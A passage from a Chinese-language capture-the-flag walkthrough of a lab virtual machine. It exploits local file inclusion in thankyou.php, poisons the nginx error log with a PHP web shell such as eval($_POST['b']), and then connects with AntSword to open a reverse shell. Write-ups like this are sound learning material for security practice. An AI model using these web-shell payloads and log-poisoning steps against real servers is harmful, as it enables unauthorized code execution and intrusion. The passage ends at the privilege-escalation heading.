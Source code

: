 5. 因为不存在登陆页面，所以包含了`/etc/passwd`文件也没用，根据`CTF`的思路我们尝试包含日志文件
    
    ```python
    /thankyou.php?file=/var/log/nginx/access.log
    ```
    
    包含成功！
    
6. 尝试后，`UA`插入`php`代码不成功。最后，我们可以将`php`代码插入到`file`参数后，使其发生错误，然后将该语句留在`error.log`里
    
    （这里开始靶机IP改为`176`，之前乱搞把之前的靶机搞坏了）
    
    ```python
    http://192.168.75.176/thankyou.php?file=<?php system($_POST['a']); ?>
    ```
    
    包含`error.log` ,存在`&lt;?php @eval($_POST['b']); ?&gt;` 即可
    
    ```python
    2024/11/03 04:37:36 [error] 557#0: *63 FastCGI sent in stderr: "PHP message: PHP Warning:  include(&lt;?php @eval($_POST['b']); ?&gt;): failed to open stream: No such file or directory in /var/www/html/thankyou.php on line 44
    PHP message: PHP Warning:  include(): Failed opening '&lt;?php @eval($_POST['b']); ?&gt;' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/html/thankyou.php on line 44" while reading response header from upstream, client: 192.168.75.1, server: _, request: "GET /thankyou.php?file= HTTP/1.1", upstream: "fastcgi://unix:/var/run/php5-fpm.sock:", host: "192.168.75.176", referrer: "http://192.168.75.176/thankyou.ph"
    ```
    
    使用蚁🗡连接（密码是`b`，取决以你的`post`参数），然后在蚁🗡里面启动终端然后反弹shell
    
    ![image.png](image%2034.png)
    

## 提权

1. 查看权限
    